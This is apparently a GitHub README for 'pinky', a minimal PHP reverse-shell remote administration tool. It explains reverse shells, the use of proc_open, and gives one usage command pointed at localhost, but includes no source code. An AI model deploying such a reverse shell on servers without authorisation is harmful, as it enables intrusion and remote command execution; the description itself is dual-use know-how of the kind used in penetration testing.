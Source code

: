 ## pinky
### The (reverse) PHP mini RAT

A reverse shell works by the remote computer sending its shell to a specific user, rather than binding it to a port, which would be unreachable in many circumstances. This allows run commands over the remote server.

**pinky** is a minimal php implementantion of a reverse remote administration tool.

### Why?

Truth is there are a lot of implementations out there in other programming languages, but not a good one written in PHP. Most of the code makes use of the **shell_exec** function to execute commands and this is very limited. **pynky** use **proc_open** to pass  input and catch the output to send it through a socket connection.

### How to use it.

All you need is to execute the file: pynky.php using the web browser or within the CLI.

```
$ php pinky.php -a 127.0.0.1 -p 3391 -t tcp
```

**Client**

![pinky client](https://github.com/davidtavarez/pinky/blob/master/pinky_client.png?raw=true "Client")

**Server**

![pinky server](https://github.com/davidtavarez/pinky/blob/master/pinky_server.png?raw=true "Server")

**URL**

![pinky url](https://github.com/davidtavarez/pinky/blob/master/pinky_url.png?raw=true "URL")
